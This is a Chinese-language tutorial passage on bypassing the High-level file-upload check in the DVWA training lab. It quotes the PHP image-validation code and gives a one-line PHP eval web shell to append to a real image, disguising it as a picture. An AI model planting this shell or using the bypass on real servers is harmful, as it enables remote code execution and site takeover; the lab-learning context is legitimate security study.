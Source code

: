 


## 4. dvwa漏洞环境 High 级别的File Upload 漏洞


分别上传jpg  php 格式的脚本木马，发现同样都是上传失败
将DVWA环境设置为Medium级别,然后分别上传jpg php 格式的脚本木马


代码中加了一个比较强力的判断：

```
if( ( strtolower( $uploaded_ext ) =="jpg"|| strtolower( $uploaded_ext ) =="jpeg"|| strtolower( $uploaded_ext ) =="png") && ( $uploaded_size <100000) && getimagesize( $uploaded_tmp ) )
```

最重要的是这句 getimagesize( $uploaded_tmp )，对图片的命名和类型进行了严格的限制.
发现High level对图片做了验证，也就是不能上传其他文件。改后缀名和Content-Type也不行，必须要保证上传的是一个图片。所以必须要构造一个系统“认可”的图片上传上去才行.也就是用文件头欺骗的方式来解决这个问题。

## 4.1制造图片马，插入脚本上传

判断图片一般是判断文件头，我们伪造一个图片的文件头，然后插入脚本代码。
首先使用记事本对正常图片文件编辑，将php一句话代码写到图片最下面，保存。这样就可以欺骗文件类型的检测。

我们插入代码的内容为：

```
 <?php @eval($_POST[pass]);?>
```

![image-20220404143352575](../../images/image-20220404143352575.png)



这个时候文件上传的漏洞我们已经利用得不能再利用了，在high模式下，需要用到其他漏洞，比如命令行注入，在命令行注入漏洞中利用过滤不严。详情可参考（详情参考命令行注入 High教程）
